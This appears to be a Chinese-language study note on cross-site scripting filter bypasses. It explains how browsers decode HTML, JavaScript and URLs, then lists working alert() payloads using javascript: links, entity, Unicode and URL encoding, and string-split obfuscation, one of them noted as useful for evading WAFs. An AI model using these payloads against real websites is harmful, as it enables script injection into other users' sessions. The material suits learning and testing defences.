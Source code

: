 ##### 方法
| 方法 | 描述 | W3C |
| --- | --- | --- |
| initMouseEvent() | 初始化鼠标事件对象的值 | 2 |
| initKeyboardEvent() | 初始化键盘事件对象的值 |  |

## XSS的绕过方式
### JavaScript伪协议
```html
javascript:alert(/xss/);
<a href=javascript:alert(1)>111</a><!--引号可以去掉-->
<!--支持伪协议的属性有：href，lowsrc，bgsound，background，action，dynsrc-->
<!-- 好多浏览器都不支持了，a标签还支持，但是需要点击才能生效-->
```
### 编码
浏览器在解析HTML文档时无论按照什么顺序，主要有三个过程：HTML解析、JS解析和URL解析，每个解析器负责HTML文档中各自对应部分的解析工作。
首先浏览器接收到一个HTML文档时，会触发HTML解析器对HTML文档进行词法解析，这一过程完成HTML解码并创建DOM树，接下来JavaScript解析器会。介入对内联脚本进行解析，这一过程完成JS的解码工作，如果浏览器遇到需要URL的上下文环境，这时URL解析器也会介入完成URL的解码工作，URL解析器的解码顺序会根据URL所在位置不同，可能在JavaScript解析器之前或之后解析。
浏览器的解析规则：浏览器收到HTML内容后，会从头开始解析。当遇到JS代码时，会使用JS解析器解析。当遇到URL时，会使用URL解析器解析。遇到CSS则用CSS解析器解析。尤其当遇到复杂代码时，可能该段代码会经过多个解析器解析。
```html
<img src=# onerror="alert&#x28/xss/&#x29">
<img src=# onerror="alert&#x000000000028/xss/&#x29">
<!--首先经过HTML解析将alert&#x28/xss/&#x29"解析为alert(1)，然后JS解析器解析后执行alert(1)，导致弹窗。
然后第二个payload中&#x000000000028不管有多少个0，HTML解析器都会正常解析，绕WAF的时候非常有用-->
<img src=# onerror="\u0061lert(/xss/)">
<!--首先经过HTML解析，然后JS解析器成功将\u0061lert(/xss/)解析为alert(/xss/)所以能弹窗 
但是用 Unicode 转义序列来表示一个控制字符时，例如单引号、双引号、圆括号等等，
它们将不会被解释成控制字符，而仅仅被解码并解析为标识符名称或者字符串常量-->
<a href="javascript:%61lert%281%29">xss</a>
<!--首先经过HTML解析，因为href会涉及到URL所以会先进行URL解析，
将%61lert%281%29解析为alert(1)最后再经过JS解析器成功解析alert(1)
URL 解析过程中有一个细节了，不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型-->
```
### 双写
### 大小写
### 一些案例
```html
<img src=# onerror="location='javascript:alert(1)'">
<img src=# onerror="location='javascript:%61lert%281%29'">
<img src=# onerror="location='j\x61vascript:%61lert%281%29'">
<img src=# onerror="loc\u0061tion='j\x61vascript:%61lert%281%29'">
<img src=# onerror="loc\u0061tion='java'+'scri'+'pt:'+'ale'+'rt%281%29'">
```
## 参考链接
[https://www.runoob.com/jsref/dom-obj-event.html](https://www.runoob.com/jsref/dom-obj-event.html)

[XSS（跨站脚本）详解](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247483698&idx=1&sn=cebb6e5c01f4e6a72860f13c5e5ea4f5&chksm=eaad810fddda08195f9afdfd4ead758bc3de3a1aa5bc71b169d2599383b51b431218ac19142d&scene=21#wechat_redirect)

